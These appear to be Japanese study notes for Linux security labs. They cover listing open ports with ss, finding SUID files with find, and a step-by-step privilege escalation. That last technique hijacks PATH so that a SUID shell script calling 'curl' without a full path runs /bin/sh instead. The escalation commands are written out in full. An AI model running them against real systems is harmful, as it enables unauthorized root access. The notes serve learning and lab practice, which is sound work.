 ### TCP/UDPのポート開放状態を確認したいとき  
#### ss -nltup  
-n : ポート番号をサービス名変換しない(例えば:httpと表示せず:80と表示する)  
-l : Listen(待ち受け)ポートのみを表示する  
-t : TCP を表示する  
-u : UDP を表示する  
-p を付けて "ss -nltup" を実行すると、どのプロセスがそのポートを開放しているのかが分かります。


### SUIDの探索
``` find / -perm -u=s -type f 2>/dev/null ```

### フルパスでないコマンドが入っているSUIDなシェルスクリプトから権限昇格する
例えば以下のようなコマンドを実行するシェルスクリプト(/usr/bin/menu)があったとする
```curl -I localhost```

1."/bin/sh"という文字列をcurlというファイルに出力する
2.生成されたcurlファイルに対してchmodで777にしてあげる
3.環境パスを現在のディレクトリにする
4.脆弱性のあるシェルスクリプトを実行すると権限昇格

以下が権限昇格の具体的な手順
```
echo /bin/sh > curl
chmod 777 curl
export PATH=現在のディレクトリ:$PATH
/usr/bin/menu
```
